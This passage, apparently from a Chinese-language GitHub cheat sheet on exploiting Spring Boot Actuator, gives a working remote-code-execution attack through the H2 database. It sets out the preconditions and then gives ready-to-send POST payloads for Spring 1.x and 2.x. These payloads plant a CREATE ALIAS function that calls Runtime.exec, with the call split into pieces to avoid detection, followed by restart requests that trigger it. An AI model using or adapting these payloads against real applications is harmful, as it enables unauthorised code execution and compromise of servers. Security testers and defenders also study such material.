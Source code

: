 正常访问：

```
http://127.0.0.1:9094/env
```

#### 0x06：restart h2 database query RCE

**利用条件：**

* 可以 POST 请求目标网站的 `/env` 接口设置属性
* 可以 POST 请求目标网站的 `/restart` 接口重启应用
* 存在 `com.h2database.h2` 依赖（版本要求暂未知）

**利用方法：**

**步骤一：设置 spring.datasource.hikari.connection-test-query 属性**

> ⚠️ 下面payload 中的 'T5' 方法每一次执行命令后都需要更换名称 (如 T6) ，然后才能被重新创建使用，否则下次 restart 重启应用时漏洞不会被触发

spring 1.x（无回显执行命令）

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.hikari.connection-test-query=CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');
```

spring 2.x（无回显执行命令）

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"}
```

**步骤二：重启应用**

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json
```

**漏洞原理：**

1. spring.datasource.hikari.connection-test-query 属性被设置为一条恶意的 `CREATE ALIAS` 创建自定义函数的 SQL 语句
2. 其属性对应 HikariCP 数据库连接池的 connectionTestQuery 配置，定义一个新数据库连接之前被执行的 SQL 语句
3. restart 重启应用，会建立新的数据库连接
4. 如果 SQL 语句中的自定义函数还没有被执行过，那么自定义函数就会被执行，造成 RCE 漏洞
